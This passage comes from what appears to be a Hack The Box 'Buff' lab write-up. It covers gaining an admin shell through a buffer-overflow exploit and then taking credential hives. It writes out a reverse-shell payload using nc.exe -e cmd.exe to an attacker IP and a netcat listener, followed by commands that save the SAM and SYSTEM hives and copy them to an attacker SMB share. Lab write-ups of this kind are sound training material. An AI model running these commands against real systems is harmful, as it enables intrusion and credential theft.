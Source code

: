 Some considerations that we wont be doing for the payload are specifying the architecture and if we needed a smaller payload we can instead execute a funtion to use nc.exxe to connect back to us. We can run a command using the windows/exec payload.

```terminal
-p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.14 4444 -e cmd.exe'
```

Now we can copy the generated payload over into python buffer overflow, replacing the default payload inside it.

Now we set up a netcat listener.

```terminal
nc -nlvp 4444
```

Finally we can run the exploit, which should go to 127.0.0.1:8888 then be redirected to our windows port 8888. This took me a number of attepts to run but it eventually worked.

![Image of shell as admin](/images/htb/buff/shell-admin.png)

The result is that we get a shell as admin.

Looking in C:\Users\Administrator\Desktop reveals the root.txt flag!

Although we are done, as a little post enum I like to get the password hashes of the machine.

```terminal
reg save HKLM\SAM c:\SAM
reg save HKLM\System c:\System
```

Let's set up a smb server using impackets toolkit.

```terminal
sudo impacket-smbserver -smb2support TEMP $(pwd)
```

Copy the files from the target back to our local machine.

```terminal
copy SAM \\10.10.14.14\TEMP\
copy System\\10.10.14.14\TEMP\
```

Now on kali we can output the hashes using samdump2.
